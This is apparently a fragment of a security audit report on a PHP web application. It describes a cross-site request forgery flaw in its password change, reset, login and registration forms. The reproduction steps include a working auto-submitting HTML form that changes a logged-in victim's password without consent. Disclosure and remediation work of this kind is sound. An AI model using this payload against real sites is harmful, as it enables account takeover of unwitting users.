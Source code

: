 ![](./Screenshots/Screenshot_2025-04-14-16-10-32_8113.png)

## Additional Notes
- The vulnerability affects all user accounts in the system
- Immediate action required to protect user credentials
- Consider implementing a password reset requirement for all users after fix
- Regular security audits should be performed to ensure proper password handling
<div style="page-break-after: always;"></div>


## Vulnerability Type
Cross-Site Request Forgery (CSRF)

## Location
The vulnerability was found in multiple locations:
1. `change.php` - Password change form
2. `includes/reset.inc.php` - Password reset processing
3. `header.php` - Login and logout forms
4. `register.php` - Registration form

## Steps to Reproduce
1. Password Change Attack:
   - Log in as a legitimate user
   - Create a malicious HTML page with the following form:
   ```html
   <form action="http://localhost/includes/reset.inc.php" method="GET">
       <input type="hidden" name="old" value="current_password">
       <input type="hidden" name="new" value="new_password">
       <input type="hidden" name="new_confirm" value="new_password">
       <input type="hidden" name="reset" value="yes">
   </form>
   <script>document.forms[0].submit()</script>
   ```
   - Trick the user into visiting this page while logged in
   - The password will be changed without user consent
